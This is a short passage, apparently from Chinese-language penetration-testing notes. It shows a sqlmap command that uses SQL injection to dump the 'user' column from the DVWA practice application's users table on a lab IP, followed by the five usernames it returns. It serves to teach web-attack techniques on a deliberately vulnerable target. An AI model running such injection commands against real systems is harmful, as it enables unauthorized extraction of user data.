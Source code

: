**查询指定列数据：**

```shell
sqlmap -u "http://192.168.30.131/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa -T users -C user --dump
```

result

```
[08:56:36] [INFO] fetching entries of column(s) '`user`' for table 'users' in database 'dvwa'
Database: dvwa
Table: users
[5 entries]
+---------+
| user    |
+---------+
| admin   |
| gordonb |
| 1337    |
| pablo   |
| smithy  |
+---------+
```
